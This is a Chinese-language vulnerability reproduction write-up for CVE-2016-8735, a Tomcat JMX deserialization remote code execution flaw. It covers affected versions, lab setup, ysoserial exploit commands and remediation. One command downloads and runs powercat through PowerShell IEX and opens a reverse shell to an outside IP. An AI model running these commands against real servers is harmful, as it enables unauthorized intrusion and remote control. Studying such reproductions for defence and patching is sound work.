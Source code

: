 **目录**[​​​​​​​](#%E2%80%8B%E2%80%8B%E2%80%8B%E2%80%8B%E2%80%8B%E2%80%8B%E2%80%8B%E2%80%8B%E2%80%8B%E2%80%8B%E2%80%8B%E2%80%8B%E2%80%8B%E2%80%8B)

[CVE-2016-8735](#CVE-2016-8735)

[漏洞复现](#t0)

[漏洞修复：](#t1)

* * *

### CVE-2016-8735

**漏洞描述：**

该漏洞与之前Oracle发布的 mxRemoteLifecycleListener [反序列化](https://so.csdn.net/so/search?q=%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96&spm=1001.2101.3001.7020)漏洞（CVE-2016-3427）相关，是由于使用了JmxRemoteLifecycleListener 的监听功能所导致。而在Oracle官方发布修复后，Tomcat未能及时修复更新而导致的远程代码执行。  
该漏洞所造成的最根本原因是Tomcat在配置JMX做监控时使用了 JmxRemoteLifecycleListener 的方法。

**漏洞影响版本：**

*   ApacheTomcat 9.0.0.M1 到9.0.0.M11
*   ApacheTomcat 8.5.0 到8.5.6
*   ApacheTomcat 8.0.0.RC1 到8.0.38
*   ApacheTomcat 7.0.0 到7.0.72
*   ApacheTomcat 6.0.0 到6.0.47

**漏洞利用条件：**

外部需要开启JmxRemoteLifecycleListener[监听](https://so.csdn.net/so/search?q=%E7%9B%91%E5%90%AC&spm=1001.2101.3001.7020)的 10001 和 10002 端口，来实现远程代码执行。

### 漏洞复现

环境：Tomcat7.0.39

在 conf/server.xml 中第 30 行中配置启用JmxRemoteLifecycleListener功能监听的端口：

![](https://img-blog.csdnimg.cn/20190923160627590.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

配置好 jmx 的端口后，我们在 tomcat 版本([https://archive.apache.org/dist/tomcat/](https://archive.apache.org/dist/tomcat/))所对应的 extras/ 目录下来下载 catalina-jmx-remote.jar 以及下载 groovy-2.3.9.jar 两个jar 包。下载完成后放至在lib目录下。

接着我们再去bin目录下修改catalina.bat脚本。在ExecuteThe Requested Command注释前面添加这么一行。主要配置的意思是设置启动tomcat的相关配置，不开启远程监听jvm信息。设置不启用他的ssl链接和不使用监控的账户。具体的配置可以去了解一下利用tomcat的jmx监控。

![](https://img-blog.csdnimg.cn/20190923160806307.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

然后启动 Tomcat ，看看本地的 10001 和 10002 端口是否开放

![](https://img-blog.csdnimg.cn/20190923160926658.png)

**漏洞利用**

```
java -cp  ysoserial.jar ysoserial.exploit.RMIRegistryExploit  127.0.0.1 10001 Groovy1  "calc.exe"
```


![](https://img-blog.csdnimg.cn/20190923162939228.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

但是由于该命令没有回显，所以我们还是选择反弹shell回来，以下是反弹nc的shell。更多的关于windows反弹shell的cmd和powershell命令，传送门：[Windows反弹Shell](https://blog.csdn.net/qq_36119192/article/details/83068430#Windows%E5%8F%8D%E5%BC%B9Shell%C2%A0) ​​​​​​​

```
java -cp  ysoserial.jar ysoserial.exploit.RMIRegistryExploit  127.0.0.1 10001 Groovy1  "powershell IEX (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1');powercat -c 192.168.10.11 -p 8888 -e cmd"
```


![](https://img-blog.csdnimg.cn/20190923170853982.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

### **漏洞修复：**

1、关闭 JmxRemoteLifecycleListener 功能，或者是对 jmx JmxRemoteLifecycleListener 远程端口进行网络访问控制。同时，增加严格的认证方式。

2、根据官方去升级更新相对应的版本。